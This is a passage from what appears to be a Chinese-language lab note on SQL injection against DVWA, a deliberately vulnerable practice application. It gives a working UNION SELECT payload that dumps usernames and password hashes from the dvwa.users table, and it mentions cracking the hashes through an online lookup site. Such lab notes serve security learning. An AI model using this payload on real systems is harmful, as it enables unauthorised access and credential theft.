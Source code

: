 ~~~
1'and 1=2 union select user ,password from dvwa.users #
~~~



![image-20230315142124869](D:\Program Files\Typora\images\image-20230315142124869.png)

这样整个数据库的用户名 密码就都出来了  通过密码的反解密得到正确的密码 admin的密码是 password

https://www.cmd5.com/

![image-20230315142252036](D:\Program Files\Typora\images\image-20230315142252036.png)

以上为显注的攻击过程

通过union 查询的数据 可以通过web界面显示出来

![image-20230315142621871](D:\Program Files\Typora\images\image-20230315142621871.png)

